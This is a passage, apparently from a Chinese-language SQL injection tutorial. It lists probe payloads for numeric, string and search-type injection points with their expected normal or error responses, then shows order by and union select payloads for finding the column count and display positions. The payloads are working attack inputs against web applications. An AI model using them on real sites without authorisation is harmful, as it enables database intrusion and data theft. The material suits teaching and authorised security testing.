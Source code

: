 
- 数字型

  参考SQL语句：`select * from table where id={}`

  ```
  ?id=1			正常
  ?id=1'			错误
  ?id=1"			错误
  
  ?id=1 --+		正常
  ?id=1' --+		错误
  ?id=1" --+		错误
  
  ?id=1 and 1=1	正常
  ?id=1 and 1=2	错误
  ```

- 字符型

  这里需要判断是单引号还是双引号，这里以单引号为例子

  参考SQL语句：`select * from table where id='{}'`

  ```
  ?id=1			正常
  ?id=1'			错误
  ?id=1"			正常
  
  ?id=1' and '1'='1	正常
  ?id=1' and '1'='2	错误
  ```

- 搜索型

  参考SQL语句：`select * from table where like '%{}%'`

  ```
  keywords'		错误
  keywords%		错误
  keywords% 'and 1=1 and '%'='		（这个相当于and 1=1）
  keywords% 'and 1=2 and '%'='		（这个相当于and 1=2）
  ```



#### 判断显示位

在页面有回显时，判断数据库有几列，页面显示数据的位置有几个，并且是哪几位

判断闭合后，`闭合 + order by  + --+`

```
?id=1' order by 3 --+		#输入数字，直到回显不正常，即该数据库有几列
```

直到回显不正常，回显正常的最大值就是列数，继续判断显示位

```
?id=1' union select 1,2,3 --+		#输入与列数一样多的数字，判断回显位
```
